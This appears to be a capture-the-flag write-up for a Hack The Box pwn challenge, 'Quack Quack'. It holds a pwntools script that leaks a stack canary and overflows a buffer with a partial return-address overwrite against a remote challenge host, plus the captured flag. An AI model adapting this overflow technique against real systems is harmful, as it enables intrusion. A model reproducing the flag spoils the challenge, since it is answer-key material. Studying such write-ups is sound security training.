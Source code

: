 # Quack Quack

## Approach

`\x00` will cut off the string, so we need to skip the first byte while leaking the canary, therefore the length of padding is `0x59`.

```python
from pwn import *

p = remote("94.237.53.203", 58633)

p.recvuntil("\n\n> ")

"""
[buf..... ........  ........ ........
 ........ ........  ........ ........]
[v3______ ________  ________ ________
 ________ ________  ________ ________
 ________ ________  ________ ________
 ________ ________  __Q u a  r k · Q
 u a r k  · \n____  ________ ________
 ________ ________][00xxxxxx xxxxxxxx]  <-- canary
[old_rbp. ........][ret_addr ........]
"""

payload = b"A" * 0x59 + b"Quack Quack "  # read(0, buf, 0x66uLL);
p.sendline(payload)

resp = p.recvuntil("\n\n> ")
leaked = resp.split(b"Quack Quack ")[1].split(b", ready to fight")[0]
print("leaked:", leaked.hex())

canary = b"\00" + leaked[:7]
old_rbp = p64(0)
payload = b"A" * 0x58 + canary + old_rbp + b"\x7f\x13"  # read(0, v3, 0x6Aull);
p.sendline(payload)

print(p.recv())

# HTB{~c4n4ry_g035_qu4ck_qu4ck~_c4a84b060d972046d5c28b5a704c9185}
```
